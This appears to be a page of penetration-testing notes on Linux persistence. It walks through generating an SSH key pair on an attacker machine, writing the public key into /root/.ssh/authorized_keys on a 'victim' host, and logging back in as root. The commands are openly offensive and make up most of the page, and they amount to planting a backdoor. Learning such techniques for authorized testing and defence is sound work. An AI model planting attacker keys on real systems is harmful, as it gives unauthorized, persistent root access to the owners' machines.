 # Linux/Unix Persistence

## Persistence

Sometimes we may need to maintain access to our target, there are a lot of methods that we can use to accomplish this task.

### SSH

```text
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/kali/.ssh/id_rsa.
Your public key has been saved in /home/kali/.ssh/id_rsa.pub.
...<snip>...
kali@kali:~$ cat:~/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD... kali@kali
```

With our ssh key generated, we can create the authorized\_keys file on the host to accept our public key.

```text
root@victim: mkdir /root/.ssh
root@victim: echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD... kali@kali" > /root/.ssh/authorized_keys
```

Now on Kali, we can use the ssh client to connect to the victim directly.

```text
kali@kali:~$ ssh root@10.10.10.10
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)
...<snip>...
root@victim:~#
```

